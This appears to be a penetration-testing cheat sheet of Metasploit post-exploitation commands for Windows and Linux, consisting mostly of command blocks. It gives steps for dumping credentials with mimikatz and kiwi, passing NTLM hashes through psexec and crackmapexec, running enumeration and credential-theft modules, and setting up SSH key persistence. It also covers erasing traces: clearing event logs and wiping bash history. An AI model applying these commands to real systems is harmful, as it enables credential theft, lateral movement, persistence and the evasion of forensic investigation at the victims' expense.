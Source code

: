 # Post Exploitation With Metasploit

## Post Exploitation With Metasploit

## Windows Post Exploitation

```bash
#meterpreter commands
sysinfo
getuid
getsystem
hashdump
show_mount
ps
migrate PID
migrate -N explorer.exe
clearev # to clear tracks
```

### Metasploit Modules For Windows

```bash
#used to automate the enumeration of the current user privileges.
use post/windows/gather/win_privs
#enumerates a list of currently and previous logged on users.
use post/windows/gather/enum_logged_on_users
#This module will tell you whether the target system is a VM or container.
use post/windows/gather/checkvm
#This module enumerates a list of installed application/programs on the target system.
use post/windows/gather/enum_applications
#module to enumerate a list of excluded AV paths on the target system.
use post/windows/gather/enum_av_excluded
#enumerate a list of computers connected to the same LAN that the target is a part of.
use post/windows/gather/enum_computers
#enumerate a list of shares
use post/windows/gather/enum_shares
```

### Unattended Windows Setup

#### Meterpreter Shell

```bash
search -f unattend.xml
download unattend.xml
```

### Mimikatz

#### Kiwi

```bash
load kiwi
?
creds_all
lsa_dump_sam
```

```bash
shell
cd C:\
mkdir Temp
cd Temp
upload /usr/share/mimikatz/x64/mimikatz.exe
.\mimikatz.exe
```

```bash
#inside mimikatz
privilege::debug
lsadump::sam
lsadump::secrets
sekurlsa::logonpasswords
```

### Pass The Hash

#### Meterpreter

```bash
migrate -N lsass.exe
load kiwi
lsa_dump_sam
$NTLMHASH
hashdump #copy all
```

#### psexec

```bash
use exploit/windows/smb/psexec
set lport
set rhosts
set smbuser administrator
set smbpass $NTLMHASH
set target Native\ upload
run
```

#### crackmapexec

```bash
#with hash
crackmapexec smb $ip -u Administrator -H "$NTLM-HASH"
crackmapexec smb $ip -u Administrator -H "$NTLM-HASH" -x "ipconfig"
```

## Linux Post Exploitation

### Enumeration Modules For Linux

```bash
post/linux/gather/enum_configs
post/multi/gather/env
post/linux/gather/enum_network
post/linux/gather/enum_protections
post/linux/gather/enum_system
post/linux/gather/checkcontainer
post/linux/gather/checkvm
post/linux/gather/enum_users_history
post/multi/manage/system_session
post/linux/manage/download_exec
```

### Creds Dumping Module

```bash
post/multi/gather/ssh_creds
post/multi/gather/docker_creds
post/linux/gather/hashdump
post/linux/gather/ecryptfs_creds
post/linux/gather/enum_psk
post/linux/gather/enum_xchat
post/linux/gather/phpmyadmin_credsteal
post/linux/gather/pptpd_chap_secrets
post/linux/manage/sshkey_persistence
```

**Clearing tracks from linux machine**

```bash
cat /dev/null > ~/.bash_history
```

